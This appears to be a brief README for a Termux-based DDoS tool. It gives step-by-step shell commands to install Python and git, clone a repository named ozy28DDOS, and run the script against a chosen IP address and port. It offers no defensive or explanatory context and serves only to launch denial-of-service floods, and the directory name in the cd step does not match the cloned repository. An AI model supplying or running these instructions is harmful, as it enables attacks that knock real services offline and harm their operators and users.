 DOOS-VIA-TERMUX

apt update && apt upgrade
pkg install python
pkg install python3
pkg install git
git clone https://github.com/ozy28/ozy28DDOS
cd ddos-via-termux
ls
python3 ozy28DDOS.py
python ozy28DDOS.py (ip) (port 80) (135)
